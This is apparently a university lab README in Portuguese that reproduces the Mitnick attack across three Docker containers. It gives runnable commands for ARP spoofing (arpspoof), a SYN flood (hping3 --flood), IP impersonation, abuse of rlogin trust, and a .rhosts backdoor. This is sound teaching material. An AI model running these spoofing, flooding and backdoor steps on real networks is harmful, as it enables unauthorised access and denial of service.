 # Mitnick Attack

## Contexto

Este é o trabalho para a disciplina de Segurança Computacional da Universidade Federal do Paraná. O objetivo é reproduzir o ataque de Kevin Mitnick e demonstrar que é possível obter acesso a uma rede interna sem a necessidade de um ataque de força bruta.

## [Entendendo o ataque de Mitnick](https://seedsecuritylabs.org/Labs_16.04/PDF/Mitnick_Attack.pdf)

***

## Entendendo nossa versão do ataque

### **estrutura geral**

Nossa topologia consistirá de 3 containers docker:
    1. [attacker](attacker/Dockerfile)
    2. [trusted_server](trusted-server/Dockerfile)
    3. [x-terminal](xterminal/Dockerfile)

Os três containers estão na mesma rede e conseguem se enxergar. Entretanto, existe uma relação de confiança entre o trusted_server e o x-terminal. O x-terminal é um terminal que só pode ser acessado, sem a necessidade de senha, a partir do trusted_server.

O sistema de acesso remoto será feito usando rlogin.

### **usuários**

A máquina x-terminal possui um usuário chamado "fontoura" com senha "fontoura".

### **attacker**

A máquina attacker é uma máquina que está tentando acessar o x-terminal. Ela não tem acesso direto ao x-terminal mas tem acesso a rede interna.

### **trusted_server**

A máquina trusted_server é uma máquina que tem acesso direto ao x-terminal. Ela é a única máquina que pode acessar o x-terminal.

A largura de banda do trusted_server é limitada, para simular uma interface de rede lenta e sucetível a ataques de negação de serviço.

### **Ataque**

O ataque será feito em 5 etapas:

1. [Arp Spoofing](./Readme.md#realizando-o-arp-spoofing)
2. [Negação de serviço](./Readme.md#realizando-a-negação-de-serviço)
3. [Personificação](./Readme.md#realizando-a-personificação)
4. [Invasão](./Readme.md#invadindo)
5. [Backdoor](./Readme.md#configurando-o-backdoor)

***

## **Requisitos**

- docker
- docker compose

***

## **Como executar**

1. Iniciando as máquinas

    ```bash
    docker-compose up -d
    ```

2. Acessando as máquinas

    Para acessar cada uma das máquinas. Em três terminais diferentes, execute os seguintes comandos, um em cada terminal:

    ```bash
    docker exec -it trusted_server bash
    docker exec -it attacker bash
    docker exec -it victim bash
    ```

    Para explorar a relação de confiança entre o trusted_server e o x-terminal, execute o seguinte comando no terminal do trusted_server:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Isso fará com que o usuário fontoura seja logado no x-terminal sem a necessidade de uma senha.

    Agora, para verificar que o x-terminal não pode ser acessado por outras máquinas, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker não é o trusted_server, o login necessitará de uma senha.

    **Obs.:** Em alguns cenários o docker manipula o iptables da máquina host. Caso sua politica de FORWARD esteja DROP, execute: `sudo iptables -P FORWARD ACCEPT`.

    Para verificar a politica de FORWARD, execute: `sudo iptables -L FORWARD`.

3. Realizando o arp spoofing

    Para realizar o arp spoofing, execute o seguinte comando no terminal do attacker:

    ```bash
    arpspoof -i eth0 -t 172.28.1.2 172.28.1.3
    ```

    O comando acima faz com que o attacker se passe pelo trusted_server para o x-terminal. Envenenando a tabela arp do x-terminal.

    É possível verificar que o arp spoofing foi realizado com sucesso executando o seguinte comando no terminal do x-terminal:

    ```bash
    arp -a
    ```

    Podemos ver que o trusted-server está na tabela arp do x-terminal com o endereço MAC do attacker.

4. Realizando a negação de serviço

    Para realizar a negação de serviço, execute o seguinte comando no terminal do attacker:

    ```bash
    hping3 --flood --rand-source 172.28.1.3
    ```

    O comando fará um flood de pacotes no trusted_server. O objetivo é saturar a largura de banda do trusted_server, fazendo com que ele não consiga mais responder as requisições do x-terminal ou se comunicar com a rede.

5. Realizando a personificação

    Para realizar a personificação, iremos mudar o IP do attacker para o IP do trusted_server. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.3
    ```

    Agora, o attacker está se passando pelo trusted_server para o x-terminal.

6. Invadindo

    Para verificar que a personificação foi realizada com sucesso, podemos tentar realizar o login sem senha em x-terminal. A partir do attacker, execute o seguinte comando:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker está se passando pelo trusted_server, o login será realizado com sucesso e o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

7. configurando o backdoor

    Para abrir a conexão através do rlogin ao x-terminal para o attacker, execute o seguinte comando no terminal do x-terminal:

    ```bash
    echo '172.28.1.4 root' >> /home/fontoura/.rhosts
    ```

    Isso permitirá que o attacker se logue no x-terminal sem a necessidade de uma senha.

8. Conclusão

    Com o backdoor configurado, podemos retornar o IP do attacker para o seu IP original. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.4
    ```

    Para verificar que o backdoor está funcionando, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Se o backdoor estiver funcionando, o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

    Para conferir que os pacotes não estão passando pelo trusted_server, execute o seguinte comando no terminal do attacker:

    ```bash
    tcpdump -i eth0 tcp port 513
    ```

    O comando acima irá capturar os pacotes que estão sendo enviados para o x-terminal. Como o attacker está se passando pelo trusted_server, os pacotes não devem passar pelo trusted_server.

***

## Roadmap

- [X] colocar as maquinas na mesma rede
- [X] derrubar o trusted server
- [X] personificar ip e mac do trusted server
- [X] fazer rlogin no x-terminal através do attacker
- [ ] conferir se os pacotes estão sendo enviados para o trusted server
- [ ] fechar o x-terminal para ser acessado apenas pelo trusted server
- [ ] fazer o backdoor de forma que fique aberto para toda a rede
